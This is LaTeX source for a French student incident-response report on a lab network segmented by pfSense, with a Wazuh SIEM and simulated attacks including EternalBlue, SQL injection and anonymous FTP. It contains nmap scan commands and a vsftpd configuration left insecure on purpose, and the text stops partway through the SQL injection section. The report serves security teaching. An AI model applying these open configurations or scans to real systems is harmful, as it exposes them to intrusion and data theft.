\documentclass[a4paper,12pt]{report}
\setcounter{secnumdepth}{3} 
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{graphicx}
\usepackage{geometry}
\usepackage{setspace}
\usepackage{titlesec}
\usepackage{hyperref}
\usepackage{eurosym}
\usepackage{tabularx} 
\usepackage{amsmath,amsfonts}
\usepackage{fancybox}
\usepackage{float}
\usepackage{listings}
\usepackage{xcolor}

\lstset{
    basicstyle=\ttfamily\footnotesize, % Petite police
    breaklines=true,    % Active la coupure de ligne
    breakatwhitespace=false, % Coupe même au milieu des mots si nécessaire
    columns=flexible, % Permet un meilleur ajustement des espaces
    backgroundcolor=\color{gray!10}, % Fond légèrement grisé
    frame=single,  % Cadre autour du bloc
    keepspaces=true % Garde les espaces et alignements
}
 
    


\renewcommand{\bibname}{Bibliographie}

% Redéfinir les titres des chapitres
\titleformat{\chapter}[hang]{\Huge\bfseries}{\thechapter}{1em}{}{}

% Réglages des marges
\geometry{left=2.5cm, right=2.5cm, top=3cm, bottom=3cm}

% Couleurs (si nécessaire pour le titre ou les sections)
\usepackage{xcolor}

% Informations pour la page de garde
\newcommand{\projecttitle}{Projet : Document d’Architecture Technique (DAT) d'une Infrastructure}
\newcommand{\subject}{Cours: Introduction à l'Investigation numérique et Réponse à Incidents}
\newcommand{\groupparticipants}{
    
        
       Joseline YOUEGO

    
}
\newcommand{\schoollogo}{image/logo_mines_nancy.png} % Remplacez "logo.png" par le chemin vers votre logo
\sloppy

\begin{document}

% Page de couverture
\begin{titlepage}
    \centering
    \vspace*{1cm}
    {\Huge \textbf{\projecttitle}} \\ % Titre principal
    \vspace{0.5cm}
    {\Large \subject} \\ % Matière
    \vspace{2cm}
    
    \includegraphics[width=0.3\textwidth]{img/logo_mines_nancy.png} \\ % Logo de l'école
    \vspace{2cm}
    
    {\Large \textbf{Réalisé par :}} \\ % Membres du groupe
    \vspace{0.5cm}
    \groupparticipants
    \vfill
    {\Large \textbf{Année académique : 2024/2025}} % Année
    \vspace*{1cm}
\end{titlepage}

% Table des matières
\tableofcontents
\newpage

\chapter{Introduction}

Ce projet s’inscrit dans un exercice de forensic et de réponse aux incidents, mettant en œuvre une architecture réseau sécurisée basée sur pfSense.

L’infrastructure étudiée repose sur plusieurs segments critiques : une zone d’administration, une DMZ, un réseau de serveurs web et de bases de données, ainsi qu’une Trusted Zone dédiée à la journalisation et à la surveillance des événements de sécurité. Chacune de ces zones joue un rôle clé dans la gestion et la sécurisation des flux de données, tout en assurant une séparation stricte entre les différents services. L'architecture complète est téléchargeable à \href{https://drive.google.com/drive/folders/15aWWFLqg4ztTWTNyW5a9o76vVVQFWJB7?usp=sharing}{Infra drive}.

Dans le cadre de cet exercice, un incident de sécurité a été simulé pour évaluer la capacité du système à détecter une intrusion, retracer les actions malveillantes et appliquer des mesures correctives adaptées. À travers une méthodologie rigoureuse et l'utilisation d'outils spécialisés, cette étude vise à identifier les indicateurs de compromission, analyser les journaux d’événements et proposer des recommandations pour renforcer la posture de sécurité du système.

Ce rapport présente l'analyse de l’incident, les résultats de l’investigation et les mesures mises en place pour restaurer l’intégrité du système, tout en s’appuyant sur les meilleures pratiques en matière de cybersécurité et de réponse aux incidents.

\section{Méthodologie utilisée}

Le test a \'et\'e r\'ealis\'e selon la m\'ethodologie \textbf{bo\^ite grise}, ce qui signifie que l’attaquant dispose d’un acc\`es partiel aux informations internes du syst\`eme, sans toutefois avoir une connaissance compl\`ete de l’infrastructure et de ses configurations d\'etaill\'ees. Cette approche permet d’\'evaluer la s\'ecurit\'e du syst\`eme dans un contexte r\'ealiste, o\`u un attaquant aurait obtenu certaines informations pr\'eliminaires, par exemple via de l’ing\'enierie sociale, une fuite de donn\'ees, ou une reconnaissance passive pr\'ealable.

Dans le cadre de cet exercice, diff\'erentes attaques ont \'et\'e men\'ees en exploitant les vuln\'erabilit\'es pr\'esentes sur divers segments du r\'eseau, en suivant une d\'emarche structur\'ee inspir\'ee des m\'ethodologies de \textit{red teaming} et de \textit{forensic analysis} :

\paragraph{Reconnaissance et cartographie du r\'eseau}
\begin{itemize}
    \item Identification des diff\'erentes zones du r\'eseau (Administration, DMZ, Webservers, Logging, Trusted Zone).
    \item Analyse des services expos\'es et des configurations via des techniques de scanning (ex : Nmap, reconnaissance passive).
\end{itemize}

\paragraph{Exploitation des vuln\'erabilit\'es identifi\'ees}
\begin{enumerate}
    \item \textbf{Exploitation de CVE sur Windows (EternalBlue)} : Attaque men\'ee depuis la machine Kali vers une machine Windows vuln\'erable en utilisant la faille \textbf{MS17-010} (EternalBlue), permettant une ex\'ecution de code \`a distance et l’obtention de privil\`eges \'elev\'es.
    \item \textbf{Intrusion sur Webserver2 via FTP mal configur\'e} : Une mauvaise configuration du service FTP a permis une infiltration et un vol de fichiers sensibles.
    \item \textbf{Injection SQL sur Webserver1} : Exploitation d’une faille SQL Injection pour exfiltrer des donn\'ees de la base de donn\'ees et  \'elever les privil\`eges.
    \item \textbf{Attaque DDoS sur Reverse Proxy} : Simulation d’une attaque par d\'eni de service (DDoS) pour \'evaluer la r\'esilience du reverse proxy face \`a une surcharge de requ\^etes malveillantes.
    \item \textbf{Maintien d’un acc\`es persistant via une backdoor sur Windows} : Apr\`es exploitation de la faille EternalBlue, une porte d\'erob\'ee a \'et\'e implant\'ee pour permettre un acc\`es ult\'erieur au syst\`eme sans d\'eclencher d’alertes imm\'ediates.
\end{enumerate}

\paragraph{Analyse post-exploitation et r\'eponse aux incidents : }
Pour la réponse aux incidents, nous identifierons les traces laissées par les attaques dans les journaux syst\`eme et les fichiers de logs du serveur de supervision (Wazuh SIEM).
   Nous essayerons de faire une corr\'elation des \'ev\'enements pour reconstituer la chronologie des attaques.
    Enfin, nous procéderons à une évaluation de l’impact de chaque attaque et réaliserons les patchs possibles.


\section{Description de l'infrastructure cible}

\subsection{Architecture réseau}

\begin{figure}[H] 
\label{archi}
    \centering
    \includegraphics[width=0.9\textwidth]{img/archtecture.png} 
    \caption{Architecture de l'infrastructure}
\end{figure}

L'infrastructure mise en place repose sur un pare-feu \textbf{pfSense} qui segmente le réseau en différentes zones pour une meilleure isolation et gestion des flux. Les sous-réseaux sont les suivants :

\begin{table}[H]
    \centering
    \renewcommand{\arraystretch}{1.2} % Ajuste l'espacement des lignes
    \small % Réduit la taille du texte pour éviter le dépassement
    \begin{tabularx}{\linewidth}{|l|c|l|X|}
        \hline
        \textbf{Sous-réseau} & \textbf{IP} & \textbf{Rôle} & \textbf{Services installés} \\
        \hline
        LAN (Admin) & 192.168.1.101 & Kali Linux (Admin/Pentest) & SQLMap, John The Ripper, Hashcat, Metasploit \\
        DMZ & 192.168.43.3 & Reverse Proxy & NGINX, Apache2 \\
        Web Servers & 192.168.44.101 & Webserver1 (Serveur Web + BD) & Apache2, MariaDB, PHP, ModSecurity \\
        Web Servers & 192.168.44.102 & Webserver2 (Serveur FTP) & Apache2, OpenSSH, Rsyslog, vsftpd \\
        Logging/Sécurité & 192.168.45.10 & Serveur de Logs & Rsyslog et NTP(serveur) \\
        Logging/Sécurité & 192.168.45.20 & Wazuh (SIEM) & Wazuh Manager, Filebeat, Elasticsearch, Kibana \\
        Logging/Sécurité & 192.168.45.30 & Windows 7 (test) & Wireshark, Putty  \\
        \hline
    \end{tabularx}
    \caption{Organisation des sous-réseaux, machines et services installés}
\end{table}


\begin{itemize}
    \item \textbf{LAN (192.168.1.0/24)} : Zone administrative contenant la machine Kali Linux utilisée pour les tests d'intrusion.
    \item \textbf{DMZ (192.168.43.0/24)} : Contient un Reverse Proxy (NGINX, Apache2) qui gère les requêtes Web entrantes.
    \item \textbf{Web Servers (192.168.44.0/24)} : Contient deux serveurs Web (DVWA, FTP ).
    \item \textbf{Logging \& Sécurité (192.168.45.0/24)} : Comprend un serveur de logs, un serveur Wazuh (SIEM) et une machine Windows 7 pour les tests.
\end{itemize}

\paragraph{Installation du SIEM Wazuz et ses agents}

L'installation de Wazuh Server est réalisée sur la machine virtuelle Ubuntu nommé wazuh (\texttt{192.168.45.20}). Cette installation inclut les composants principaux : Wazuh Manager, Wazuh Indexer, Wazuh Dashboard et Filebeat. Pour procéder à l'installation, exécutez la commande suivante en mode superutilisateur :

\begin{lstlisting}
sudo bash wazuh-install.sh -a
\end{lstlisting}

Une fois le serveur installé, l'installation d'un agent se fait en spécifiant l'adresse du serveur Wazuh (\texttt{192.168.45.20}), le système d'exploitation de l'agent, un nom pour l'agent et en exécutant la commande appropriée  est générée selon le système d'exploitation de l'agent. Les agents de notre infrastructures sont rpertoriés dans le tableau suivant :


\begin{table}[H]
    \centering
    \begin{tabular}{|l|c|l|c|}
        \hline
        \textbf{Machine} & \textbf{IP} & \textbf{Rôle} & \textbf{Installation Agent} \\
        \hline
        Reverse & 192.168.43.3 & Serveur proxy/nginx &  Oui \\
        Webserver1 & 192.168.44.101 & Serveur web Apache &  Oui \\
        Webserver2 & 192.168.44.102 & Serveur web Apache &  Oui \\
        Logs & 192.168.45.10 & Serveur de logs Rsyslog & Oui \\
         windows & 192.168.45.30 & Serveur de gestion &  Oui \\
        Wazuh & 192.168.45.20 & Serveur de gestion &  Non - wazuh manager \\
        \hline
    \end{tabular}
    \caption{Wazuh serveur et ses agents}
    \label{tab:wazuh_agents}
\end{table}


Une fois les agents installés, il est possible de les enregistrer et de vérifier leur connexion au serveur à l'aide des commandes d'administration de Wazuh.

\begin{figure}[H] 
\label{wazuh-agents}
    \centering
    \includegraphics[width=0.9\textwidth]{img/wazuh_agents_final.png} 
    \caption{Les agents wazuh}
\end{figure}
\subsection{Segmentation du réseau de l'infrastructure : règles de pare-feu}
Nous avons segmenté notre infrastructure via des règles de pare-feu. Les règles appliquées sont :


\begin{table}[H]
    \centering
    \resizebox{\textwidth}{!}{ % Réduction automatique du tableau
    \begin{tabular}{|c|c|c|c|c|}
        \hline
        \textbf{Source} & \textbf{Destination} & \textbf{Ports} & \textbf{Action} & \textbf{Justification} \\
        \hline
        Reverse Proxy (192.168.43.3) & Internet & * & ALLOW & Autorise le Reverse Proxy à accéder à Internet \\
        Reverse Proxy (192.168.43.3) & Wazuh (192.168.45.20) & * & ALLOW & Permet l'envoi des logs et alertes aux agents Wazuh \\
        Reverse Proxy (192.168.43.3) & Web Servers (192.168.44.0/24) & * & ALLOW & Permet la redirection du trafic Web vers les serveurs backend \\
        Kali (192.168.1.101) & Serveur de logs (192.168.45.10) & * & ALLOW & Atteinte du serveur de logs \\
        LAN (192.168.1.0/24) & Internet & * & ALLOW & Autorise les machines du LAN à accéder à Internet \\
        Kali (192.168.1.101) & Windows (192.168.45.30) & 3389, 445 & ALLOW & Autorise l'exploitation de Windows vulnérable via SMB et RDP \\
        Kali (192.168.1.101) & Web Servers (192.168.44.0/24) & * & ALLOW & Effectuer des attaques sur les serveurs Web \\
        Kali (192.168.1.101) & Reverse Proxy (192.168.43.3) & * & ALLOW & Administration du Reverse Proxy via SSH et accès Web \\
        Windows 7 vulnérable (192.168.45.30) & Kali (192.168.1.101) & * & ALLOW & Communication entre Windows et Kali \\
        Web Servers (192.168.44.0/24) & Wazuh (192.168.45.20) & * & ALLOW & Permet l'envoi des logs Wazuh \\
        Sous-réseau 192.168.45.0/24 & Internet & * & ALLOW & Accès Internet pour le réseau de logs et sécurité \\
        Kali (192.168.1.101) & Wazuh (192.168.45.20) & * & ALLOW & Permet l'envoi des logs par Kali \\
        Web Servers (192.168.44.0/24) & Serveur de logs (192.168.45.10) & * & ALLOW & Permet l'envoi des logs par les Web Servers \\
        Serveur de logs (192.168.45.10) & Web Servers (192.168.44.0/24) & * & ALLOW & Permet aux Web Servers d'accéder au serveur de logs \\
        Web Servers (192.168.44.0/24) & SSH (22) & TCP & ALLOW & Autorise l'accès SSH aux serveurs Web pour analyse forensique \\
        Internet & Web Servers (192.168.44.0/24) & 80, 443 & DENY & Bloque l'accès direct depuis Internet aux serveurs Web \\
        Internet & Reverse Proxy (192.168.43.3) & * & ALLOW & Permet aux utilisateurs externes d’accéder aux sites via le Reverse Proxy \\
        Web Servers (192.168.44.0/24) & Internet & 80 (HTTP) & ALLOW & Permet les mises à jour des Web Servers \\
        Web Servers (192.168.44.0/24) & Internet & * & DENY & Bloque les connexions directes vers Internet depuis les Web Servers \\
        Web Servers (192.168.44.0/24) & Wazuh (192.168.45.20) & * & ALLOW & Permet aux Web Servers d’envoyer leurs logs à Wazuh \\
        Web Servers (192.168.44.0/24) & Serveur de logs (192.168.45.10) & * & ALLOW & Permet aux Web Servers d’envoyer leurs logs au serveur de logs \\
        Reverse Proxy (192.168.43.3) & Web Servers (OPT2) & * & ALLOW & Redirige le trafic Web du Reverse Proxy vers les Web Servers \\
        \hline
    \end{tabular}
    }
    \caption{Règles du pare-feu  pfSense}
\end{table}



Le Reverse Proxy (\texttt{192.168.43.3}) est autorisé à accéder à Internet afin de récupérer du contenu Web et rediriger le trafic vers les serveurs Web. De plus, il peut communiquer avec les serveurs Web (\texttt{192.168.44.0/24}) pour assurer l’acheminement des requêtes HTTP/S.
L'accès direct aux serveurs Web depuis Internet est bloqué. Seul le Reverse Proxy est autorisé à leur envoyer des requêtes. Ces serveurs peuvent envoyer leurs logs vers Wazuh et le serveur de logs, mais leur accès à Internet est strictement limité aux mises à jour via HTTP (\texttt{port 80}).
La machine Kali Linux (\texttt{192.168.1.101}) est autorisée à effectuer des tests d'attaques sur les serveurs Web et la machine Windows vulnérable (\texttt{192.168.45.30}). Elle peut également administrer le Reverse Proxy via SSH et HTTP, et envoyer des logs à Wazuh pour analyse forensique.
 La machine Windows vulnérable est configurée pour communiquer avec Kali, permettant la réalisation de tests d’exploitation. Le réseau Logging \& Sécurité (\texttt{192.168.45.0/24}) a accès à Internet, ce qui pourrait être une source de risques si des restrictions ne sont pas appliquées.



\begin{figure}[H] 
\label{firewall_rules_wan}
    \centering
    
\includegraphics[width=0.9\textwidth]{img/firewall_rules_wan.png} 
    \caption{Règles firewall WAN}
\end{figure}


\begin{figure}[H] 
\label{firewall_rules_lan}
    \centering
    
\includegraphics[width=0.9\textwidth]{img/firewall_rules_lan.png} 
    \caption{Règles firewall LAN}
\end{figure}

\begin{figure}[H] 
\label{firewall_rules_dmz}
    \centering
    
\includegraphics[width=0.9\textwidth]{img/firewall_rules_dmz.png} 
    \caption{Règles firewall DMZ}
\end{figure}

\begin{figure}[H] 
\label{firewall_rules_webserver}
    \centering
    
\includegraphics[width=0.9\textwidth]{img/firewall_rules_webservers.png} 
    \caption{Règles firewall Webservers}
\end{figure}

\begin{figure}[H] 
\label{firewall_rules_logging}
    \centering
    
\includegraphics[width=0.9\textwidth]{img/firewall_rules_logging.png} 
    \caption{Règles firewall Logging}
\end{figure}

L'isolement des différentes zones ainsi que les restrictions appliquées permettent de sécuriser l'infrastructure et d'assurer une sorte de cloisonnement du trafic.

Les améliorations possibles pourraient être à ce niveau :
\begin{itemize}
    \item couper l'accès Internet du sous-réseau de logs : c'est à dire restreindre l’accès Internet de la zone \texttt{192.168.45.0/24} pour limiter les risques d’exfiltration.
    \item ajouter des restrictions supplémentaires sur les accès SSH : l’accès SSH aux serveurs Web devrait être restreint à certaines adresses IP de confiance afin d’éviter les intrusions non autorisées.
    \item la fermeture des accès post-tests : après les tests d’intrusion, les accès Kali → Windows devraient être désactivés pour éviter une exploitation indésirable de la machine vulnérable.
\end{itemize}




\section{Configuration des services}
\subsection{Reverse Proxy (NGINX, Apache)}
Le Reverse Proxy redirige les requêtes HTTP vers les serveurs Web.

\begin{lstlisting}
server {
    listen 80;
    server_name webapp.local;
    
    location / {
        proxy_pass http://192.168.44.101;
    }
    
    location /admin {
        proxy_pass http://192.168.44.102;
    }
}
\end{lstlisting}

\subsection{Configuration de WebServer1 - BD}
WebServer1 est un serveur web hébergeant une application PHP et une base de données MariaDB.

\begin{lstlisting}
sudo apt update
sudo apt install apache2 php php-mysql mariadb-server unzip -y
\end{lstlisting}

Base de Données : 

\begin{itemize}
    \item \textbf{Nom} : infra\_db
    \item \textbf{Table} : users (colonnes : id, username, password)
\end{itemize}

\begin{figure}[H] 
\label{web1-bd}
    \centering
    \includegraphics[width=0.8\textwidth]{img/webserver1_db_maria_infra_db.png} 
    \caption{BD infra\_db}
\end{figure}

dans le répertoire \textbf{/var/www/html/} les pages suivantes :

\begin{itemize}
    \item \textbf{info.php} : affiche les informations PHP du serveur
    \item \textbf{login.php} : page de connexion des utilisateurs
\end{itemize}

\begin{figure}[H] 
\label{web1-php-info}
    \centering
    \includegraphics[width=0.8\textwidth]{img/webserver1_php_info.png} 
    \caption{info.php BD }
\end{figure}

\begin{figure}[H] 
\label{web1-php-login}
    \centering
    \includegraphics[width=0.8\textwidth]{img/webserver1_login.png} 
    \caption{Login BD - login.php }
\end{figure}


\subsection{Serveur de fichiers Web 2 - FTP}
Un serveur FTP  est déployé.

\begin{lstlisting}
sudo apt install vsftpd -y
\end{lstlisting}

Il est cependant compromis. 


\begin{figure}[H] 
\label{config-ftp}
    \centering
    \includegraphics[width=0.8\textwidth]{img/webserver2_ftp_conf.png} 
    \caption{Mauvaise configuration du protocole FTP }
\end{figure}

\begin{lstlisting}
# acces anonyme active
anonymous_enable=YES
#autorise l'ecriture (potentiel upload de fichiers malveillants)
write_enable=YES
# autorise les utilisateurs locaux
local_enable=YES
\end{lstlisting}

\subsection{Windows 7 }
Cette machine est déployée avec SMBv1 et RDP activés pour permettre l’exploitation via EternalBlue.

\begin{itemize}
    \item Désactiver les patchs sécurité.
    \item Activer RDP (3389).
    \item Laisser SMB ouvert (445).
\end{itemize}

\subsection{Résumé des services et vulnérabilités simulées}


\begin{table}[H]
    \centering
    \begin{tabularx}{\textwidth}{|X|X|X|}
        \hline
        \textbf{Machine} & \textbf{Service} & \textbf{Vulnérabilités} \\
        \hline
        Webserver1 (192.168.44.101) & Apache2, MariaDB (SQL) & Injection SQL, Fichiers accessibles \\
        Webserver2 (192.168.44.102) & FTP (vsftpd) & Anonymous FTP, Bruteforce, Exfiltration de données \\
        Windows 7 (192.168.45.30) & SMB, RDP & CVE-2017-0144 (EternalBlue), CVE-2021-34527 (PrintNightmare) \\
        Reverse Proxy (192.168.43.3) & NGINX, Apache2 & Mauvaise configuration, Attaque DoS par inondation \\
        \hline
    \end{tabularx}
    \caption{Résumé des vulnérabilités présentes}
\end{table}


\chapter{Exploitation}

\section{Scénario d'Exploitation de l'Infrastructure}

L'objectif de cette section est d'examiner les différentes vulnérabilités d'une infrastructure composée de plusieurs machines virtuelles (\textbf{Webserver1, Webserver2, Windows 7 et un Reverse Proxy}) et de démontrer leur exploitation par un attaquant situé sur une machine \textbf{Kali Linux}. Ces attaques permettent de simuler un scénario réaliste d'intrusion et de compromission de l'infrastructure.

\begin{enumerate}
    \item \textbf{Injection SQL sur Webserver1}\\
    L'attaquant commence par une phase de reconnaissance à l'aide de \texttt{Nmap} afin d’identifier les services exposés sur \textbf{Webserver1}. Après avoir détecté un serveur web avec un formulaire de connexion vulnérable, il utilise \texttt{sqlmap} pour exploiter une injection SQL, ce qui lui permet d’extraire des bases de données sensibles, notamment les identifiants des utilisateurs stockés dans la table \texttt{users}.

    \item \textbf{Exfiltration de données via FTP sur Webserver2}\\
    Après l’exploitation de \textbf{Webserver1}, l’attaquant se tourne vers \textbf{Webserver2}. En utilisant \texttt{Nmap}, il identifie un serveur \textbf{FTP} accessible anonymement. Cette mauvaise configuration lui permet d’accéder à des fichiers sensibles stockés sur le serveur et de les télécharger sur sa machine locale.

    \item \textbf{Exploitation de CVE-2017-0144 (EternalBlue) sur Windows 7}\\
    Profitant de la présence de \textbf{SMBv1 activé} sur un serveur Windows 7, l’attaquant utilise \texttt{Metasploit} pour exploiter la vulnérabilité \textbf{EternalBlue (MS17-010)}. Cette attaque lui permet d’ouvrir une session \textbf{Meterpreter} et d’exécuter des commandes à distance avec des privilèges élevés. Il en profite pour récupérer les hachages des mots de passe, escalader ses privilèges et établir un accès persistant via \textbf{RDP}.

    \item \textbf{Exploitation de CVE-2021-34527 (PrintNightmare) sur Windows 7}\\
    L’attaquant poursuit son exploitation sur la machine Windows 7 en profitant de la vulnérabilité \textbf{PrintNightmare}, qui affecte le service d’impression de Windows. Il utilise cette faille pour exécuter du code malveillant et extraire les identifiants des utilisateurs via \texttt{Mimikatz}, renforçant ainsi son contrôle sur la machine cible.

    \item \textbf{Attaque DoS sur le Reverse Proxy}\\
    Enfin, l’attaquant simule une attaque de \textbf{déni de service (DoS)} en envoyant un grand nombre de requêtes TCP SYN au \textbf{Reverse Proxy} via \texttt{hping3}. Cette attaque vise à surcharger le serveur et à rendre indisponibles les services web qu’il protège. L’analyse des logs et des performances système met en évidence l’impact de l’attaque. Une mitigation est ensuite mise en place à l’aide de \textbf{iptables, Fail2Ban et des règles de limitation de requêtes dans Nginx}.

\end{enumerate}


Ce scénario met en lumière différentes techniques utilisées par un attaquant pour compromettre une infrastructure, de la reconnaissance initiale à l’exploitation des vulnérabilités, en passant par l’exfiltration de données et les attaques de déni de service. Il démontre également comment des outils de défense tels que \texttt{iptables}, \texttt{Nginx} et \texttt{Fail2Ban} peuvent être utilisés pour atténuer ces menaces.


\section{Injection SQL sur le serveur de base de données Webserver1}

À partir de la vm Kali, nous allons essayer une exploitation d'injection SQL sur le serveur Webserver1. 
\begin{enumerate}
    
\item Étape 1 : Reconnaissance du réseau avec Nmap

L'attaquant (Kali) utilise \texttt{nmap} pour scanner le sous-réseau :

\begin{lstlisting}
sudo nmap -sS -sV -p- -T4 192.168.44.0/24
\end{lstlisting}

\begin{figure}[H] 
\label{web1-scan-kali}
    \centering
    \includegraphics[width=0.8\textwidth]{img/webserver1_sql_injection_1.png} 
    \caption{scan nmap}
\end{figure}

\item Il scan les services ouverts sur WebServer1
L'attaquant analyse les ports ouverts :
\begin{lstlisting}
nmap -sV 192.168.44.101
\end{lstlisting}

\begin{figure}[H] 
\label{web1-scan-ports-kali}
    \centering
